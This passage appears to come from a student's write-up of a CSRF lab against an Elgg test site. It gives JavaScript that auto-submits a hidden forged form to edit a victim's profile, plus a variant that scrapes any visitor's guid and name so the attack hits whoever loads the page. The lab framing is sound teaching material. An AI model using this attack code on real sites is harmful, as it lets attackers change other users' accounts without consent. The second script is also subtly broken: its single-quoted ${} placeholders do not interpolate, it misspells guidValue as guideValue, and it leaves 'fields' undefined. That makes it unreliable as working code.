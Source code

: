 ```jsx
    document.body.appendChild(p);

    // Submit the form
    p.submit();
}
```

然后可看到POST成功。

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%209.png)

**Question 1: The forged HTTP request needs Alice’s user id (guid) to work properly. If Boby targets Alice specifically, before the attack, he can find ways to get Alice’s user id. Boby does not know Alice’s Elgg password, so he cannot log into Alice’s account to get the information. Please describe how Boby can solve this problem.**

可以通过在网页中搜索，在”http://www.seed-server.com/members”这个网页中有所有人的guid。

![Untitled](/assets/img/2024-04-25-Cross-Site Request Forgery Attack Lab/Untitled%2010.png)

**Question 2: If Boby would like to launch the attack to anybody who visits his malicious web page. In this case, he does not know who is visiting the web page beforehand. Can he still launch the CSRF attack to modify the victim’s Elgg profile? Please explain.**

这是我做的一些尝试，我发现无论是谁访问“http://www.seed-server.com/profile”的时候都会跳转到自己的profile，然后这个html中有name和guid，所以我就可以这样获取name和guid。

```jsx
async function forge_post()
{
    const response = await fetch('http://www.seed-server.com/profile');
    const html = await response.text();

    const parser = new DOMParser();
    const doc = parser.parseFromString(html, 'text/html');

    const guidElement = doc.evaluate('/html/body/div[1]/div[3]/div/div/div[2]/div[2]/div/div', doc, null, XPathResult.FIRST_ORDERED_NODE_TYPE, null).singleNodeValue;
    const guidValue = guidElement ? parseInt(guidElement.getAttribute('data-page-owner-guid')) : null;
        
    const title = doc.title;
    const nameValue = title ? title.split(' :')[0] : null;

    var fields;

    // The following are form entries need to be filled out by attackers.
    // The entries are made hidden, so the victim won't be able to see them.
    fields += "<input type='hidden' name='name' value='${nameValue}'>";
    fields += "<input type='hidden' name='briefdescription' value='Samy is my Hero'>";
    fields += "<input type='hidden' name='accesslevel[briefdescription]' value='2'>";         
    fields += "<input type='hidden' name='guid' value='${guideValue}'>";

    // Create a <form> element.
    var p = document.createElement("form");

    // Construct the form
    p.action = "http://www.seed-server.com/action/profile/edit";
    p.innerHTML = fields;
    p.method = "post";

    // Append the form to the current page.
    document.body.appendChild(p);

    // Submit the form
    p.submit();
```